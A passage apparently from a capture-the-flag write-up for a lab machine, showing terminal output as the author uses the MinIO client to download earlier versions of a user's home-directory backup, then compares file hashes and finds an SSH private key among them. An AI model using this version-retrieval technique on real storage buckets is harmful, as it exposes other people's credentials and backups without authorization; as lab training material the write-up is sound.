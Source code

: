 ```bash
...nd.skyfall.htb/askyy/home_backup.tar.gz: 2.64 KiB / 2.64 KiB ┃▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓┃ 2.11 KiB/s 1s                                                                                                                                                                                                                                               
  

╰─➤  ./mc cp --vid 25835695-5e73-4c13-82f7-30fd2da2cf61  skyfall/askyy/home_backup.tar.gz  ./askyy/v3/v3.tar.gz                             
...nd.skyfall.htb/askyy/home_backup.tar.gz: 2.48 KiB / 2.48 KiB ┃▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓┃ 2.07 KiB/s 1s
```

Great we download all imp files, lets check what's the difference in all of these files...

```bash
─➤  find . -type f -exec md5sum {} \; | grep -v 'terraform' | sort               
1f98b8f3f3c8f8927eca945d59dcc1c6  ./v3/.bashrc
22bfb8c1dd94b5f3813a2b25da67463f  ./v2/.bash_logout
22bfb8c1dd94b5f3813a2b25da67463f  ./v3/.bash_logout
2b6563a67dcb356b437e1091079bd485  ./v2/.ssh/id_rsa
673985d5b313f5bbcb57f6f389c31a0f  ./v1/v1.tar.gz
68b329da9893e34099c7d8ad5cb9c940  ./v2/.bash_history
68b329da9893e34099c7d8ad5cb9c940  ./v2/.ssh/authorized_keys
68b329da9893e34099c7d8ad5cb9c940  ./v2/.viminfo
68b329da9893e34099c7d8ad5cb9c940  ./v3/.bash_history
68b329da9893e34099c7d8ad5cb9c940  ./v3/.ssh/authorized_keys
78f15c5244fe3d6013c52a0cec92c8a2  ./v3/v3.tar.gz
86079bcd6bd8879c36ee60654f8640a8  ./v2/.ssh/id_rsa.pub
a9b4e1836c4dee94570e252880d5c32e  ./v2/.bashrc
d1d5bcb98383140b80c96786e7f7a8bd  ./v2/v2.tar.gz
d41d8cd98f00b204e9800998ecf8427e  ./v2/.cache/motd.legal-displayed
d41d8cd98f00b204e9800998ecf8427e  ./v2/.sudo_as_admin_successful
d41d8cd98f00b204e9800998ecf8427e  ./v3/.cache/motd.legal-displayed
d41d8cd98f00b204e9800998ecf8427e  ./v3/.sudo_as_admin_successful
f4e81ade7d6f9fb342541152d08e7a97  ./v2/.profile
f4e81ade7d6f9fb342541152d08e7a97  ./v3/.profile
```

I decide to remove all similar and non-intersting files,

```bash
╰─➤  find . -type f -exec md5sum {} \; | grep -v 'terraform' | sort | grep -vE 'f4e81ade7d6f9fb342541152d08e7a97|d41d8cd98f00b204e9800998ecf8427e|68b329da9893e34099c7d8ad5cb9c940|22bfb8c1dd94b5f3813a2b25da67463f' 
1f98b8f3f3c8f8927eca945d59dcc1c6  ./v3/.bashrc
2b6563a67dcb356b437e1091079bd485  ./v2/.ssh/id_rsa
673985d5b313f5bbcb57f6f389c31a0f  ./v1/v1.tar.gz
78f15c5244fe3d6013c52a0cec92c8a2  ./v3/v3.tar.gz
86079bcd6bd8879c36ee60654f8640a8  ./v2/.ssh/id_rsa.pub
a9b4e1836c4dee94570e252880d5c32e  ./v2/.bashrc
d1d5bcb98383140b80c96786e7f7a8bd  ./v2/v2.tar.gz
```
